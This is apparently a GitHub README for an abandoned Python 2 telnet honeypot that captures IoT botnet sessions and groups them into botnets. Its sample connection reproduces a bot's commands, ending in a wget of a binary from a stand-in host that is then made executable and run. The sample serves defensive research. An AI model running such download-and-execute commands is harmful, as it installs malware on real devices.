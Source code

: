 ## Disclaimer

This project neither supported or in development anymore. It is based on python2 which has reached its EOL in 2020 and uses dependencies which are getting harder to install over time. Use at your own risk! 

# Telnet IoT honeypot

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

The honeypot works by emulating a shell enviroment, just like 
cowrie (https://github.com/micheloosterhof/cowrie).
The aim of this project is primarily to automatically analyse
Botnet connections and "map" Botnets by linking diffrent
connections and even Networks together.

## Architecture

The application has a client/server architecture,
with a client (the actual honeypot) accepting telnet connections
and a server which receives information about connections and
does the analysis.

The backend server exposes a HTTP interface which is used
to access to frontend as well as by the clients to push new
Connection information to the backend.

## Automatic analysis

The Backend uses 2 diffrent mechanisms to automatically link
connections:

### Networks

Networks are discovered Botnets. A network is the set of all linked
connections, urls and samples. Urls and samples
are linked when they are used in a connection. Two connections are linked
when both connections are recieved by the same honeypot client
(mutliple clients are supported!) and use the same credentials in a short
period of time (defautl 2 minutes) or come from the same IP address.

### Malware

Multiple networks are identified to use the same type of malware
if the text entered during sessions of the networks aro mostly the
same. This comparison is done using sort of "hash"-function which
basically translates a session (or connection) into a sequence
of words and then maps each word to a single byte so this resulting
sequence of bytes can be easily searched.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Configuration

The backend requires a SQL-database (default sqlite) which is initialized
at first run. Before the first run you should generate a admin account
which is used to generate more users. The admin account can also directly
used by a client to post connections. When more than one honeypots shall be
connected, creating multiple users is recommended.

	bash create_config.sh

Both client and backend will read the files `config.yaml` and `config.dist.yaml`
to read configuration parameters. The `config.dist.yaml` file includes
default values for all but admin user credentials and these parameters
are overwirtten by entries in the `config.yaml` file.

## Running the Server

	python backend.py

## Running the Client

This project contains an own honeypot, however because of the client-server architecture,
other honeypot can be used as well.

### Using the built-in honeypot

	python honeypot.py

The client cannot be started without the server running. To use a diffrent configuration
for the client you can use the `-c` switch like this:

	python honeypot.py -c myconfig.yaml

If you only want to check the honeypot functionality,
you can start the client in interactive mode:

	python honeypot shell

### Using cowrie

I wrote an output plugin for cowrie, which has much more features than the built in honeypot.
If you want to use cowrie instead, checkout my fork which includes the output module here:
https://github.com/Phype/cowrie .

## Opening the frontend

After the server is started, open `http://127.0.0.1/` in your favorite browser.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)

